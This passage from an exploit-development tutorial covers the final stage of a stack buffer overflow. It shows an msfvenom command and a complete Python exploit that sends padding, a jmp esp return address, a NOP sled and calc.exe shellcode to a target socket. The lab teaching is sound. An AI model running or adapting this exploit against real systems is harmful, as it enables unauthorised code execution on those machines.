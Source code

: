 We can then write down this address and keep aside

### 5. Jumping to Shellcode

Now that we know where is jmp esp we can create our shellcode with msfvenom and specify the badchars
In our local env we will launch calc

`msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python' -b '\x00\x0a\x0d'`
We can comment the bad_chars function and define our last exploit function

We will make our final payload which will send the buffer, the eip, some nop and our shellcode.

As the top of the stack can move we'll add some nop (no operations)

To be safe we can put 32 nops because it rarely reaches 32 bytes (not more than 16 in general)

And as we are going to use pack we need to import the necessary python modules, pack will allow us to manage the little Endian and we will use '<L' to specify Little Endian.

And so in EIP we put the address of jmp esp in little endian.

And here is our last function ready to be sent:
```
def exploit():

# msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python' -b '\x00\x0a\x0d'
        buf =  b""
        buf += b"\xdb\xd1\xbe\x2f\xeb\xc4\x18\xd9\x74\x24\xf4\x5a\x31"
        buf += b"\xc9\xb1\x31\x31\x72\x18\x83\xc2\x04\x03\x72\x3b\x09"
        buf += b"\x31\xe4\xab\x4f\xba\x15\x2b\x30\x32\xf0\x1a\x70\x20"
        buf += b"\x70\x0c\x40\x22\xd4\xa0\x2b\x66\xcd\x33\x59\xaf\xe2"
        buf += b"\xf4\xd4\x89\xcd\x05\x44\xe9\x4c\x85\x97\x3e\xaf\xb4"
        buf += b"\x57\x33\xae\xf1\x8a\xbe\xe2\xaa\xc1\x6d\x13\xdf\x9c"
        buf += b"\xad\x98\x93\x31\xb6\x7d\x63\x33\x97\xd3\xf8\x6a\x37"
        buf += b"\xd5\x2d\x07\x7e\xcd\x32\x22\xc8\x66\x80\xd8\xcb\xae"
        buf += b"\xd9\x21\x67\x8f\xd6\xd3\x79\xd7\xd0\x0b\x0c\x21\x23"
        buf += b"\xb1\x17\xf6\x5e\x6d\x9d\xed\xf8\xe6\x05\xca\xf9\x2b"
        buf += b"\xd3\x99\xf5\x80\x97\xc6\x19\x16\x7b\x7d\x25\x93\x7a"
        buf += b"\x52\xac\xe7\x58\x76\xf5\xbc\xc1\x2f\x53\x12\xfd\x30"
        buf += b"\x3c\xcb\x5b\x3a\xd0\x18\xd6\x61\xbe\xdf\x64\x1c\x8c"
        buf += b"\xe0\x76\x1f\xa0\x88\x47\x94\x2f\xce\x57\x7f\x14\x20"
        buf += b"\x12\x22\x3c\xa9\xfb\xb6\x7d\xb4\xfb\x6c\x41\xc1\x7f"
        buf += b"\x85\x39\x36\x9f\xec\x3c\x72\x27\x1c\x4c\xeb\xc2\x22"
        buf += b"\xe3\x0c\xc7\x40\x62\x9f\x8b\xa8\x01\x27\x29\xb5"
        offset = 469
        buffer = b"A"*offset
        eip = pack('<L', 0x621014E3)
        nop = b"\x90"*32
        payload = buffer + eip + nop +buf
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((IP, port))
        s.send(payload)
        s.close()
exploit()
```
At this point we can just try t without the debugger, we should see the calc pop up in our test machine.
